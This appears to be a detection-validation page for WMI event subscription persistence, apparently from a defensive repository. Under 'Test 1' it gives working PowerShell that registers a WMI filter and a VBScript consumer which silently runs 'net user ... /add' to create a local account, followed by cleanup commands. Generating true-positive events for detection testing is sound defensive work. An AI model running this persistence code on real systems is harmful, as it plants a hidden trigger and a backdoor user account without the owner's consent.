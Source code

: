 ## False Positives

## Validation
Steps required to generate a representative True Positive Event (Red Scheme of Maneuver)

#### Test 1
Creating a WMI event subscription with Powershell using VBScript to add a user

Event Placed: 1804, Try 2-1833, Try 3 1914
Event Triggered: 1808, Try 2-1836, Try 3 1915 (success)

- Open PowerShell as Administrator
- Run the following commands
```powershell
$FilterArgs = @{
    Name='team4_filter_test2';
    EventNamespace='root\CimV2';
    QueryLanguage="WQL";
    Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 240 AND TargetInstance.SystemUpTime < 325"
}
$Filter=Set-WmiInstance -Class __EventFilter -Namespace "root\subscription" -Arguments $FilterArgs

$ConsumerArgs = @{
    Name='team4_consumer_test2';
    ScriptingEngine='VBScript';
    ScriptText='
    Set objws = CreateObject("Wscript.Shell")
    objws.Run "cmd.exe /c net user test2baddie password /add", 0, True
    '
}
$Consumer=Set-WmiInstance -Namespace "root\subscription" -Class ActiveScriptEventConsumer -Arguments $ConsumerArgs

$FilterToConsumerArgs = @{
    Filter = $Filter;
    Consumer = $Consumer;
}
$FilterToConsumerBinding = Set-WmiInstance -Namespace 'root\subscription' -Class __FilterToConsumerBinding -Arguments $FilterToConsumerArgs
```

##### Cleanup Test 1
```powershell
$EventConsumerToCleanup = Get-WmiObject -Namespace root/subscription -Class ActiveScriptEventConsumer -Filter "Name = 'team4_consumer_test2'"
$EventFilterToCleanup = Get-WmiObject -Namespace root/subscription -Class __EventFilter -Filter "Name = 'team4_filter_test2'"
$FilterConsumerBindingToCleanup = Get-WmiObject -Namespace root/subscription -Query "REFERENCES OF {$($EventConsumerToCleanup.__RELPATH)} WHERE ResultClass = __FilterToConsumerBinding" -ErrorAction SilentlyContinue
$FilterConsumerBindingToCleanup | Remove-WmiObject
$EventConsumerToCleanup | Remove-WmiObject
$EventFilterToCleanup | Remove-WmiObject
```
#### Test 2
Creating Windows Event Subscription with .MOF files using commandline arguments which is triggered after system is restarted
